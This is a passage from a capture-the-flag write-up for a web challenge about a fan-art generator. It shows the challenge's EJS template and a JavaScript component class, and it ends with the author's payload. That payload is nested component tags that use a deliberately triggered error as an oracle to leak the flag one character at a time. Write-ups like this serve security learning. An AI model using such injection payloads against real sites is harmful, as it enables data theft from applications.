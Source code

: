```html
                border: 1px solid #999;
                display: block;
                padding: 10px;
                font-size: 18px;
            }

            textarea {
            	width: 50%;
            	height: 400px;
                font-size: 18px;
            }
        </style> 
    </head>
    <body>
        <div class="bg"></div>
        <h1>EYANG OTZ OTZ OTZ!!! 💖💖💖</h1>
        <img src="data:image/png;base64, <%= img %>"></body>
    </body>
    <% if(rick) { %>
    <script type="text/javascript">
        alert("How dare you make an error on the EYANG FAN ART!");
        window.location.href = "https://www.youtube.com/watch?v=dQw4w9WgXcQ&ab_channel=RickAstley";
    </script>
    <% } %>
</html>
```

If our input code leads an error after generate the fanart, it'll be alert an error and then redirect to rick roll video. Let's look at the class component

```javascript
class component {
	constructor(name,parent) {
		this.name = name;
		this.parent = parent;
		this.dx = 0;
		this.dy = 0;
		this.x = 0;
		this.y = 0;
		// <text> <shape> <line> are literals
		this.literals = [];

		if(this == parent) throw "Error: parent cannot be itself!";
	}

	toString() { return this.name; }
}
```

It checks if the component equals to the parent, it will throw an error which will alert. So what we gonna do here is we'll define a new component which has its parent equals to parent and we'll check every single word of flag component, so if it's right, it'll throw the error because of its `component == parent` just like the code. And we can also see the `toString()` function which means it will return to us a string, so we'll use `innerText` to have it show up.

final payload (by the author)
```javascript
<component name="clown">
<component name="parent">
<component name="flag">
<component name="literals">
<component name="0">
<component name="innerText">
<component name="0"> <!-- this is the ith character -->
<component name="L"> <!-- this is the character that we want to check -->
```